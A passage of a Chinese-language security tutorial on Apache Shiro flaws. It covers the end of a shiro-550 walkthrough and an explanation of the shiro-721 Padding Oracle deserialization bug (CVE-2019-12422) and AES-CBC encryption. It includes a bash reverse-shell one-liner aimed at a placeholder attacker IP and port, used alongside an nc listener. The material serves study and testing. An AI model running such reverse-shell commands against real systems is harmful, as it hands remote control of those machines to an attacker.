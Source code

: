出现 shell>>以后，攻击机开启 nc 监听。

在 shell>>处填写 bash 反弹 shell 命令`bash -i >& /dev/tcp/攻击机ip/端口 0>&1`

![img9](img/img9.png)

反弹 shell 成功。

### 2.2 shiro-721

Shiro Padding Oracle 远程命令执行漏洞（CVE-2019-12422）

**漏洞背景**

此处想要深入理解，需要学习一下 AES 加密，参考https://townmacro.cn/2022/09/06/%E6%B5%85%E8%AF%95%E6%8E%A2%E7%A9%B6shiro-721/

**漏洞原理**

Shiro 1.2.4 以上版本官方移除了代码中的默认密钥，在后续的版本更新中，修复了之前 shiro-550 的固定 KEY 值，要求开发者自己设置，如果开发者没有设置，则默认动态生成一个 KEY，降低了固定密钥泄漏的风险。然后后续的流程还是没变， **1.2.5 <= Shiro < 1.4.2**版本中仍然存在类似的漏洞，即 shiro-721。

在 cookie 中使用的是 AES-128-CBC 模式进行的加密，在加密流程中使用了 Padding 填充，这里导致用户可以通过 Padding Oracle 攻击来生成攻击代码来构造恶意的 rememberMe 字段，然后触发反序列化攻击，最终导致的任意代码执行。

![企业微信截图_20230515164522](img/企业微信截图_20230515164522.png)

```
1. 明文经过填充后，分为不同的组block，以组的方式对数据进行处理
2. 初始化向量（IV）首先和第一组明文进行XOR（异或）操作，得到”中间值“
3. 采用密钥对中间值进行块加密，删除第一组加密的密文 （加密过程涉及复杂的变换、移位等）
4. 第一组加密的密文作为第二组的初始向量（IV），参与第二组明文的异或操作
5. 依次执行块加密，最后将每一块的密文拼接成密文
```
